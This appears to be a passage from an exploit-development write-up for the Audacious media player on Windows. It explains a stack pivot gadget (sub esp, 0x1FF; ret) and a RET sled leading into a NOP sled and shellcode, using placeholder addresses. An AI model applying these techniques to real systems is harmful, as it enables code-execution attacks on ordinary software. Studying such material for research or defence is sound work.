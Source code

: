 The critical stack pivot operation:

![Stack pivot execution](images/Audacious_3.png)

*Stack pivot gadget execution: sub esp, 0x1FF; ret for negative stack pivot*

```assembly
; Stack pivot gadget
; Address: 0x????????
sub esp, 0x1FF  ; Negative stack pivot (511 bytes)
ret             ; Return to pivoted stack location
```

**Pivot Analysis:**
- **Pivot Distance**: 511 bytes (0x1FF) negative offset
- **Target Area**: Reaches attacker-controlled stack region
- **Shellcode Placement**: Positioned within pivot range

### Phase 4: RET Sled Implementation

To enhance exploit reliability across different environments:

```assembly
; RET sled for reliable execution
; Multiple consecutive RET instructions
0x41414141: ret
0x41414142: ret  
0x41414143: ret
0x41414144: ret
; ... continues until NOP sled
```

The RET sled provides:
- **Execution Reliability**: Compensates for minor address variations
- **Environment Adaptation**: Works across different Windows versions
- **Shellcode Transition**: Smooth transition to NOP sled
